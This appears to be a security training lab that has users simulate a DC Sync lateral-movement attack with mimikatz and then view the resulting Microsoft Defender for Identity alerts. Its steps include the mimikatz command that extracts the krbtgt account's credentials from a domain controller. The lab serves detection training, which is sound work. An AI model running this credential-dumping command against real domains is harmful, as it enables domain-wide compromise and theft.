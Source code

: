 # Lab 14: Simulate and Detect Lateral Movement Attacks `(Read-Only)`

In this task, you will simulate a Lateral Movement attack and detect it using Microsoft Defender for Identity. Please note that this is a `read-only` task, as you will be logged out of your virtual machine during the attack simulation—this is a security measure enforced by Defender for Identity.

> **Note:** This exercise is **Read-only** because the tool used below is blocked by Microsoft Defender. If this software is used for any malicious activity, Microsoft Defender will flag the user as a threat, resulting in an automatic logout from the virtual machine. The user will not be able to log in again.

1. Open **PowerShell (Admin)** and navigate to the below mentioned directory.

   ```powershell
   cd C:\MimikatzLab\mimikatz-master\mimikatz-master\x64
   ```

1. In the same PowerShell session, run the below command to run the mimikatz application

   ```powershell
   mimikatz.exe 
   ```

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

   ```shell
   lsadump::dcsync /domain:yourdomain.com /user:krbtgt
   ```

1. Now you can check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

   ![](./media/E1T3S3upd1.png)

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names

   - **Lateral movement using remote logon by contained user blocked**
   - **Lateral movement using RDP blocked**

       ![](./media/E1T3S3upd.png)

       > **Note:** The user will be logged out of the virtual machine as part of the containment measures initiated by the Defender in response to the user's attempted lateral movement attack.

## Review

In this lab, you have completed the following tasks:

- Simulated a lateral movement attack using the DC Sync technique to test Defender for Identity detection.  

### You have successfully completed the lab. Click on **Next >>** to proceed with the next Lab.

![](./media/rd_gs_1_9.png)
